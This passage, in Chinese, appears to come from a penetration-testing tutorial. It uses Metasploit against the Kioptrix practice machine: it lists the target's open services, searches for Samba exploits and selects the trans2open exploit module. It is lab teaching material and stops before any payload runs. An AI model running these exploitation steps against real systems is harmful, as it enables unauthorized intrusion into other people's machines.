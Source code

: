 我们的数据库中应该已经有一些信息了。这可以通过以下方式进行验证：

```
msf > services 

```

此命令为我们提供以下输出：

```
Services
========
host port proto name state info
---- ---- ----- ---- ----- ----
192.168.75.14 22 tcp ssh open
192.168.75.14 80 tcp http open
192.168.75.14 111 udp rpcbind open
192.168.75.14 111 tcp rpcbind open
192.168.75.14 137 udp netbios-ns open
192.168.75.14 139 tcp netbios-ssn open
192.168.75.14 443 tcp https open
192.168.75.14 32768 tcp filenet-tms open
192.168.75.14 32768 udp omad open

```

当查看这些端口时，我们发现以前被利用的 samba 端口 139 仍然处于打开状态。现在是时候看看我们可以做什么，而不必重新格式化攻击代码。

```
msf> search samba 

```

这导致：

![Using Metasploit to exploit Kioptrix](img/7744_04_13.jpg)

*   Name：一旦我们决定尝试哪种利用，Name 列将与 USE 命令关联使用。
*   披露：披露日期是向社区或供应商披露该漏洞的实际日期，而不是发布概念验证代码的日期。
*   等级：等级非常重要，因为它表明已知利用漏洞的可靠性。
*   描述很好地描述了该漏洞的类型。

我们将使用 `trans2open`漏洞，因为它与我们在本章前面手动执行的类似。在 `msfconsole`类型中：

```
msf > use exploit/linux/samba/trans2open 

```
